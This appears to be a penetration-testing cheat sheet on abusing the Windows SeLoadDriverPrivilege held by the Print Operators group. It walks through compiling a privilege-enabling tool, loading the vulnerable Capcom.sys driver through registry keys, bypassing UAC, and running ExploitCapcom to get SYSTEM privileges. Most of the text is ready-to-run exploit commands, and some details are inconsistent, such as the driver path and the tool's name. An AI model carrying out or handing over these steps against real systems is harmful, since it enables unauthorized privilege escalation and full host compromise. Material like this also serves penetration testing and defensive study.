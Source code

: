 ## [Print Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#print-operators)
### SeLoadDriverPrivilige
Manage, create, share and delete printers. 
Capcom.sys allows any user to execute shell code with SYSTEM privileges. 
#### Exploit
Load the [driver](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp)
Download it locally and edit:
```shell-session
Whoami /priv
```
If SeLoadDriver is not present need to bypass [UAC](https://github.com/hfiref0x/UACME) or load CMD as admin
Paste:
```notepad 
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
Compile with cl.exe
```powershell 
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
[Download](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) and save to C:\temp.
Add reference to driver
```shell-session
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
Verify Driver is not loaded using [DriverView](http://www.nirsoft.net/utils/driverview.html)
```shell-session
.\DriverView.exe /stext drivers.txt

`cat drivers.txt | Select-String -pattern Capcom`
```
Verify Privilege is Enabled 
```shell-session
EnableSeLoadDriverPrivilege.exe
```
Verify Capcom Driver is listed
```shell-session
.\DriverView.exe /stext drivers.txt

cat drivers.txt | Select-String -pattern Capcom
```
Use [ExploitCampcom.exe](https://github.com/tandasat/ExploitCapcom) to escalate privileges.
##### GUI?
```shell-session
.\ExploitCapcom.exe
```
